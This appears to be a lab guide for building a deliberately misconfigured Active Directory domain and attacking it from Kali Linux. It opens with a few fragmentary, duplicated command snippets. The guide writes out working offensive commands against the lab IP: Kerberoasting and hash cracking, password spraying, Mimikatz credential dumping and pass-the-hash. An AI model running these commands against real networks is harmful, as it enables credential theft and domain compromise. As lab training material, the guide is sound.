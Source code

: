 ```bash
sudo apt install bloodhound crackmapexec impacket-scripts responder
```


```bash
sudo apt-get install apt-transport-https
```

```bash
sudo apt-get install neo4j
sudo systemctl stop neo4j

cd /usr/bin
sudo ./neo4j console
```


/etc/neo4j/neo4j.conf

#dbms.default_listen_address=0.0.0.0
```bash
cd /usr/bin
./neo4j console

sudo systemctl start neo4j
```



https://bloodhound.readthedocs.io/en/latest/installation/linux.html

```bash
./BloodHound --no-sandbox
```

Use ldapsearch to enumerate users and groups:
```bash
ldapsearch -x -H ldap://192.168.10.10 -b "dc=lab,dc=local" -s sub "(objectClass=user)" sAMAccountName
```
Use CrackMapExec to enumerate domain info:
```bash
crackmapexec smb 192.168.10.10 -u "testuser1" -p "password123" --shares
```
Kerberoasting:

Extract SPNs for cracking:
```bash
impacket-GetUserSPNs -dc-ip 192.168.10.10 lab.local/testuser1:password123 -request
```
// Crack hashes with Hashcat:
```bash
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
```





Installing Active Directory (AD) on a Windows Server 2019 virtual machine in VirtualBox for comprehensive security testing, including identifying misconfigurations, vulnerabilities, and attack vectors, requires a deliberate setup to mimic real-world scenarios while ensuring a safe, isolated environment. Below is a detailed guide tailored for security testing purposes, including steps to introduce controlled misconfigurations for testing and recommendations for tools and techniques to evaluate AD security.

---

#### **Introduce Controlled Misconfigurations**
To simulate a realistic environment for security testing, intentionally introduce common AD misconfigurations. Document each change to track vulnerabilities:
1. **Weak Password Policies**:
   - Open **Group Policy Management** (via **Server Manager** > **Tools**).
   - Edit the **Default Domain Policy** (right-click > **Edit**).
   - Navigate to **Computer Configuration** > **Policies** > **Windows Settings** > **Security Settings** > **Account Policies** > **Password Policy**.
   - Set **Minimum Password Length** to 4 and disable **Password must meet complexity requirements**.
2. **Excessive Permissions**:
   - In **Active Directory Users and Computers**, create test users (e.g., "testuser1", "testuser2").
   - Add "testuser1" to the **Domain Admins** group (right-click user > **Add to a group**).
   - Grant "testuser2" excessive permissions (e.g., Full Control over an OU) via **Properties** > **Security**.
3. **Unsecured Service Accounts**:
   - Create a service account (e.g., "svc-app") with a weak password (e.g., "password123").
   - Grant it high privileges (e.g., add to **Enterprise Admins**).
4. **Kerberos Misconfigurations**:
   - Enable **unconstrained delegation** on the server:
     - In **Active Directory Users and Computers**, right-click "DC01" > **Properties** > **Delegation**.
     - Select **Trust this computer for delegation to any service (Kerberos only)**.
   - Create a user with a Service Principal Name (SPN) for Kerberoasting:
     - Run in PowerShell: `Set-ADUser -Identity svc-app -ServicePrincipalNames @{Add="HTTP/svc-app.lab.local"}`.
5. **Outdated Systems**:
   - Skip some Windows Updates to simulate unpatched systems (revert to a pre-update snapshot if needed).
6. **Insecure Shares**:
   - Create a share with weak permissions:
     - Create a folder (e.g., C:\Sensitive).
     - Right-click > **Properties** > **Sharing** > **Share**, add **Everyone** with **Read/Write** access.
     - Place a text file with fake credentials (e.g., "admin:password123") for testing credential harvesting.

#### **Set Up the Testing Environment**
1. **Configure Windows 10 Client**:
   - Install Windows 10 on a separate VM.
   - Set DNS to the AD server’s IP (192.168.10.10).
   - Join the domain:
     - Go to **System** > **Change settings** > **Change** > **Domain**, enter "lab.local", and authenticate with "LAB\Administrator".
   - Create local users or domain users for testing privilege escalation.
2. **Set Up Kali Linux VM**:
   - Install Kali Linux on a VM in the same "labnet" internal network.
   - Update Kali: `sudo apt update && sudo apt upgrade -y`.
   - Install AD testing tools:
     ```bash
     sudo apt install bloodhound crackmapexec impacket-scripts responder
     ```
   - Install Neo4j for BloodHound: Follow instructions from [BloodHound documentation](https://bloodhound.readthedocs.io/).
3. **Network Configuration**:
   - Ensure all VMs are on the same internal network ("labnet").
   - From Kali, verify connectivity: `ping 192.168.10.10`.
   - Add the domain to `/etc/hosts` on Kali:
     ```bash
     echo "192.168.10.10 dc01.lab.local" | sudo tee -a /etc/hosts
     ```

#### **Perform Security Tests**
Use the Kali VM to test the AD environment for misconfigurations and vulnerabilities. Below are common tests:
1. **Enumeration**:
   - Use **ldapsearch** to enumerate users and groups:
     ```bash
     ldapsearch -x -H ldap://192.168.10.10 -b "dc=lab,dc=local" -s sub "(objectClass=user)" sAMAccountName
     ```
   - Use **CrackMapExec** to enumerate domain info:
     ```bash
     crackmapexec smb 192.168.10.10 -u "testuser1" -p "password123" --shares
     ```
2. **Kerberoasting**:
   - Extract SPNs for cracking:
     ```bash
     impacket-GetUserSPNs -dc-ip 192.168.10.10 lab.local/testuser1:password123 -request
     ```
   - Crack hashes with **Hashcat**:
     ```bash
     hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
     ```
3. **Password Spraying**:
   - Use **CrackMapExec** to test weak passwords:
     ```bash
     crackmapexec smb 192.168.10.10 -u users.txt -p passwords.txt
     ```
4. **BloodHound Analysis**:
   - Collect AD data with **SharpHound** (run on Windows client) or BloodHound’s Python collector:
     ```bash
     bloodhound-python -u testuser1 -p password123 -d lab.local -c All -dc dc01.lab.local
     ```
   - Import data into BloodHound and analyze attack paths (e.g., shortest path to Domain Admins).
5. **Privilege Escalation**:
   - Test unconstrained delegation:
     ```bash
     impacket-getST -spn cifs/dc01.lab.local -dc-ip 192.168.10.10 lab.local/svc-app:password123
     ```
   - Use **Mimikatz** (on Windows client) to dump credentials:
     ```powershell
     Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
     ```
6. **Misconfiguration Checks**:
   - Check for weak GPO settings using **Group Policy Management** or PowerShell:
     ```powershell
     Get-GPO -All | Get-GPOReport -ReportType Xml
     ```
   - Scan for open shares:
     ```bash
     crackmapexec smb 192.168.10.10 -u testuser1 -p password123 --shares
     ```
7. **Exploitation**:
   - Test for **PrintNightmare** or other vulnerabilities (if unpatched):
     ```bash
     impacket-rpcdump 192.168.10.10 | grep MS-RPRN
     ```
   - Attempt **Pass-the-Hash** with harvested NTLM hashes:
     ```bash
     crackmapexec smb 192.168.10.10 -u testuser1 -H <NTLM_hash>
     ```

#### **Document Findings**
- Log all vulnerabilities, misconfigurations, and successful exploits.
- Note weak passwords, excessive permissions, open shares, and Kerberos issues.
- Use tools like **CherryTree** or a markdown file on Kali to organize findings.

#### **Clean Up and Secure**
- After testing, revert to a clean snapshot to reset misconfigurations.
- To harden the AD environment for further testing:
  - Enforce strong password policies (14+ characters, complexity enabled).
  - Disable unconstrained delegation.
  - Remove unnecessary users from privileged groups.
  - Apply latest patches via Windows Update.
  - Configure firewall rules to limit unnecessary ports (e.g., block SMB externally).
